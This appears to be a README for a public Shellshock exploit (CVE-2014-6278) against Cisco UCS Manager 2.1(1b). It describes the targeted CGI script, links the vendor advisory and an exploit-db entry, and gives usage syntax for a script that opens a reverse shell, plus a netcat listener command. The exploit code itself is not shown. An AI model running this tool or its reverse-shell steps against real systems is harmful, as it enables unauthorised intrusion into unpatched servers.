 Cisco UCS Manager 2.1(1b) Shellshock Exploit

-CVE-2014-6278
-Confirmed on version 2.1(1b), but more are likely vulnerable.
-Cisco's advisory: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash
-Exploit generates a reverse shell to a nc listener.
-Exploit Author: @thatchriseckert

Exploit goes after a specific cgi script in Cisco UCS manager to create a reverse shell back to the ip/port specified.  Also posted on edb:  https://www.exploit-db.com/exploits/39568/

Usage -

[*] Usage: <Victim IP> <Attacking Host> <Reverse Shell Port>
[*] Example: shellshock.py 127.0.0.1 127.0.0.1 4444
[*] Listener: nc -lvp <port>



